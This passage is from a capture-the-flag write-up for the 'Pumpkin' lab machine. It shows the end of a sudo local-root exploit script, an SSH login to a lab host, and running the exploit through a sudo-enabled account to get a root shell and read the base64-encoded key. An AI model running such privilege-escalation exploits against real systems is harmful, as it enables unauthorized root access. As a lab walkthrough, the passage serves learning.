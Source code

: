 ```
echo ALEX-ALEX
su
/bin/su
/usr/bin/su
_EOF
chmod a+x ./sudoedit
sudo ./sudoedit $1
```

Lets try to log into the goblin user that I have using the password from earlier.

```
ssh goblin@192.168.1.185 -p 3535
```


&nbsp;&nbsp;&nbsp;&nbsp;But if I copy the script up its gone in like 5 sec... wtf? It looks like something is deleting it.

```
ps -ef | grep rm

root      1505  1498  0 12:11 ?        00:00:00 /bin/sh -c sleep 30; rm /home/goblin/*.*
```

&nbsp;&nbsp;&nbsp;&nbsp;That little goblin fucker has something thats deleting my shit every 30sec.

&nbsp;&nbsp;&nbsp;&nbsp;Unfortunately scarecow is not sudo, so I cant run it, but goblin has sudo, so I could run the file from scarecrow using sudo from goblins account.

```
goblin@Pumpkin:~$ sudo /home/scarecrow/script.sh file.txt     
[sudo] password for goblin: 
Tod Miller Sudo local root exploit
by Slouching
automated by kingcope
ALEX-ALEX
root@Pumpkin:/tmp#
```

&nbsp;&nbsp;&nbsp;&nbsp;Aaaand I'm root, and in the root users direcotry we have the Pumpkin garden key.

```
cd ~
ls
»PumpkinGaden_Key
```

&nbsp;&nbsp;&nbsp;&nbsp;The contents look to be encoded again, so using base64 decode…

```
root@Pumpkin:~# cat PumpkinGarden_Key | base64 -d
Congratulations!root@Pumpkin:~#
```

Cool I've go the key and I've completed the image.

## Conclusions
&nbsp;&nbsp;&nbsp;&nbsp;`dirb` is pretty cool, so I need to learn it and other dictionary based attacks.
 I also need to just poke my nose everywhere that looks interesting, checking default creds I usually think about, but that should always be thought number one.
